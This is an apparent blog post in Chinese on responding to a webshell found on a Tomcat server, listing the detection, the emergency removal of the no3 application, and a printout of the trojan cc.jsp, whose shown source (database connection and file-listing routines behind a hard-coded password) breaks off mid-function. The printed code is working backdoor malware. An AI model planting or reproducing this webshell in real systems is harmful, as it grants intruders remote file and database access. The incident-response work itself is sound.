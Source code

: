 # Tomcat 服务器WebShell问题排查


##### 一、确定问题

1、阿里云提示在x.x.x.x服务器上发现木马文件，被植入了webshell。

2、木马文件路径：/web/tomcat-xxx/webapps/no3/cc.jsp。

![木马文件路径](https://upload-images.jianshu.io/upload_images/6956152-677d48fa78369434.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


##### 二、应急处理

1、在未确认cc.jsp文件功能之前，将webapps文件夹下的no3文件夹和no3.war文件删除，同时将no3.war文件备份到/home/xxx目录下。

2、同时将no3文件夹下的cc.jsp文件发送到本地进行分析，确认是一个jsp的木马后门文件，可以获取远程服务器权限。
```
<%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>
<%!
	String Pwd = "023";
	String cs = "UTF-8";
	
	String EC(String s) throws Exception {
		return new String(s.getBytes("ISO-8859-1"),cs);
	}
	
	Connection GC(String s) throws Exception {
		String[] x = s.trim().split("\r\n");
		Class.forName(x[0].trim());
		if(x[1].indexOf("jdbc:oracle")!=-1){
			return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);
		}else{
			Connection c = DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);
			if (x.length > 4) {
				c.setCatalog(x[4]);
			}
			return c;
		}
	}
	
	void AA(StringBuffer sb) throws Exception {
		File r[] = File.listRoots();
		for (int i = 0; i < r.length; i++) {
			sb.append(r[i].toString().substring(0, 2));
		}
	}
	
	void BB(String s, StringBuffer sb) throws Exception {
		File oF = new File(s), l[] = oF.listFiles();
		String sT, sQ, sF = "";
		java.util.Date dt;
		SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
		for (int i = 0; i < l.length; i++) {
			dt = new java.util.Date(l[i].lastModified());
			sT = fm.format(dt);
			sQ = l[i].canRead() ? "R" : "";
			sQ += l[i].canWrite() ? " W" : "";
			if (l[i].isDirectory()) {
				sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()+ "\t" + sQ + "\n");
			} else {
				sF+=l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"+ sQ + "\n";
			}
```